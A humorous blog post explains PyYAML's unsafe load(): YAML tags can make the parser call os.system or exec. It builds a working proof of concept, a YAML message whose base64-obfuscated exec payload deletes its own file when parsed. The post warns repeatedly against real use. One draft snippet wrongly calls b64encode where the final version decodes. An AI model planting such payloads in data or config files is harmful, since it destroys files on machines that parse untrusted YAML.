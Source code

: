 ```yaml
---
layout: post
date: 2019-12-11 08:52:40 +0000
title: This YAML file will self-destruct in five seconds!
summary: YAML allows you to execute arbitrary code in a parser, even if you really really shouldn't.
tags: python code-crimes

index:
  best_of: true
  tint_color: "#527ab2"
---
```


If you know the *Mission: Impossible* films (or before that, the 1966 TV series), you've surely heard the famous phrase, "This tape will self-destruct in five seconds. Good luck, Jim."
As soon as our hero hears his instructions, the tape emits a cloud of smoke and is rendered useless.

But would this work in 2019?
Modern spies don't use analogue recorders and reel-to-reel tape, they use computers and digital files.
Could we equip them with a message that would self-destruct as soon as they read it?
The answer: yes, but you really shouldn't.

{%
  picture
  filename="tape_recorder.jpg"
  alt="A tape recorder with smoke coming out of it."
  visible_width="750px"
%}

It's easy to create an executable file that destroys itself as soon as it runs.
The challenge is to do it in a format that looks innocuous -- at a casual glance, it looks like a plain text file, with no trickery or traps.

Let's talk about [YAML], which is a language for serialising data.
You can use it to store data structures like lists, maps, and text -- similar to JSON or XML -- and it's often used for config files and the like.
It's meant to be human-readable, which is why it's so popular for storing config.
Here's a small example:

```yaml
name: "lexie"
cat_count: 2

cats:
  - name: "Bailey"
    colour: "ochre"
  - name: "Bertie"
    colour: "black"
```

[YAML]: https://en.wikipedia.org/wiki/YAML

The basic YAML syntax allows you to specify simple data structures (lists, maps, and so on), but what if you want to serialise something more complicated?

You can use [tags] in your YAML file to tell the parser that it should treat the data as a more complex object.
For example, the `!square` tag here could tell the parser that rather than treating this value as a string, it should create an instance of the user-defined `Square` class:

```yaml
!square "0,0,10,10"
```

[tags]: https://yaml.org/spec/1.2/spec.html#id2761292

You can also have language-specific tags.
If you run this through a Python YAML parser, it creates a Python tuple instead of a list:

```yaml
!!python/tuple [triangle, square, circle]
```

To do this, your parser needs to be executing arbitrary code, and that's always a recipe for security vulnerabilities.
If you trust your YAML, this is less of an issue -- but if you're parsing YAML from unknown sources, this could be used to run malicious code on your machine.

For a long time, the default `load()` function in the [PyYAML module][pyyaml] was unsafe, and would run any Python code in the YAML it received.
This meant you could call system functions from YAML:

```python
import yaml

yaml.load("!!python/object/new:os.system [echo BOOM!]")
```

but rather than calling `echo BOOM!`, the attacker might call something more unpleasant, like `rm`.

There was a `safe_load()` function that would only load a subset of YAML that didn't feature arbitrary code execution, but it wasn't until earlier this year that safe loading [became the default][deprecation].

[pyyaml]: https://pypi.org/project/PyYAML/
[deprecation]: https://github.com/yaml/pyyaml/wiki/PyYAML-yaml.load(input)-Deprecation

Ever since I learnt about this behaviour, I've idly wondered if you could use this to cause the YAML file to delete itself, and yesterday I got that working.
This is shocking, disgusting code, and you shouldn't use it in practice -- but it proves the idea.

Using `os.system` is powerful, but the builtin [`exec()` function][exec] is even more powerful.
If you pass this a string, it tries to execute the string as Python code.
Always be careful when using this function, and *never* call it with untrusted input.

Let's call `exec()` from a YAML file:

```yaml
!!python/object/new:exec [
  name = "Mr Phelps";

  print("Hello %s." % name)
]
```

If you pass this to `yaml.load()` with a vulnerable version of PyYAML (< 5.1), it prints the text `Hello Mr Phelps.` -- but we could do anything we like here.

[exec]: https://docs.python.org/3/library/functions.html#exec

We could, say, look up the ID of the parent process (the Python interpreter that's doing the parsing), and then use [lsof][lsof] to see what files that process has open:

```yaml
!!python/object/new:exec [
  import os;

  parent_process_id = os.getppid();

  os.system("lsof -p %s" % parent_process_id);
]
```

[lsof]: https://linux.die.net/man/8/lsof

And if we can see what files a process has open, well, we could see what YAML file it has open for parsing, and delete it.
I tried to write something like this:

```yaml
!!python/object/new:exec [
  import os;
  import subprocess;
  import sys;
  import time;

  parent_process_id = os.getppid();

  open_files = subprocess.check_output(
      ["lsof", "-p", str(parent_process_id)]
  ).decode("utf8");

  filenames = [
      line.split()[-1]
      for line in open_files.splitlines()
  ];

  yaml_files = [
      f
      for f in filenames
      if f.endswith((".yml", ".yaml"))
  ];

  for yf in yaml_files:
      print(
          "This file will self-destruct in five seconds. Good luck, Jim.",
          file=sys.stderr
      );
      time.sleep(5);
      os.unlink(yf)
]
```

but you get errors from the YAML parser -- the square brackets, quotes, and commas look like they might be part of the YAML syntax, and the parser gets confused.

I hit this problem a couple of times, and I tried to be clever and write my Python code to avoid any of those characters, but it severely limits what you can do.
(Among other things, no commas means you can't call functions with more than one argument.)

We can get round this by doubling down on a bad idea.
If you want to get a string through an environment that only allows a limited set of characters, you can often use [base64 encoding][base64].
This encodes your text in a form that only uses alphanumeric characters, plus three punctuation characters (`+`, `/`, and `=`).
If we put base64 encoded source in the YAML file, decode it at runtime, then call `exec()` a second time -- that would get past the YAML parser.

Here's what that would look like:

```yaml
!!python/object/new:exec [
  import base64;

  encoded_source = b"... some base64 encoded source ...";
  source = base64.b64encode(encoded_source);

  exec(source)
]
```

[base64]: https://en.wikipedia.org/wiki/Base64

And if we do this to the code I was trying to run above, here's the message we end up with:

```yaml
from: "Lexie <lexie@alexwlchan.net>"
to: "Jim Phelps <jim.phelps@imf.org>"

message: "Beware Swiss villains bearing lasers!"

action:
  !!python/object/new:exec [
    import base64;

    encoded_source = (
        b"aW1wb3J0IG9zOwppbXBvcnQgc3VicHJvY2VzczsKaW1wb3J0IHN5czsKaW1wb3J0IHRp"
        b"bWU7CgpwYXJlbnRfcHJvY2Vzc19pZCA9IG9zLmdldHBwaWQoKTsKCm9wZW5fZmlsZXMg"
        b"PSBzdWJwcm9jZXNzLmNoZWNrX291dHB1dCgKICAgIFsibHNvZiIsICItcCIsIHN0cihw"
        b"YXJlbnRfcHJvY2Vzc19pZCldCikuZGVjb2RlKCJ1dGY4Iik7CgpmaWxlbmFtZXMgPSBb"
        b"CiAgICBsaW5lLnNwbGl0KClbLTFdCiAgICBmb3IgbGluZSBpbiBvcGVuX2ZpbGVzLnNw"
        b"bGl0bGluZXMoKQpdOwoKeWFtbF9maWxlcyA9IFsKICAgIGYKICAgIGZvciBmIGluIGZp"
        b"bGVuYW1lcwogICAgaWYgZi5lbmRzd2l0aCgoIi55bWwiLCAiLnlhbWwiKSkKXTsKCmZv"
        b"ciB5ZiBpbiB5YW1sX2ZpbGVzOgogICAgcHJpbnQoCiAgICAgICAgIlRoaXMgZmlsZSB3"
        b"aWxsIHNlbGYtZGVzdHJ1Y3QgaW4gZml2ZSBzZWNvbmRzLiBHb29kIGx1Y2ssIEppbS4i"
        b"LAogICAgICAgIGZpbGU9c3lzLnN0ZGVycgogICAgKTsKICAgIHRpbWUuc2xlZXAoNSk7"
        b"CiAgICBvcy51bmxpbmsoeWYpOwogICAgcHJpbnQoIvCfkqUiKTs="
    );
    source = base64.b64decode(encoded_source);

    exec(source)
  ]
```

If Jim Phelps parses this using his special IMF-approved message reader:

```python
import yaml  # PyYAML < 5.1

with open("message.yml") as f:
    message = yaml.load(f)
    print(message)
```

then he sees our message, and then the file will burst into (metaphorical) smoke before his eyes!

This code is dastardly, terrible, and nobody should use it.
It abuses unsafe YAML loading and the `exec()` function, neither of which should ever be used with untrusted input -- or ideally at all.
It's also quite fragile; `lsof` behaves differently across platforms, and this likely won't work on macOS or Windows.

Please don't use this for anything serious.
If it explodes, I will disavow any knowledge of your code.
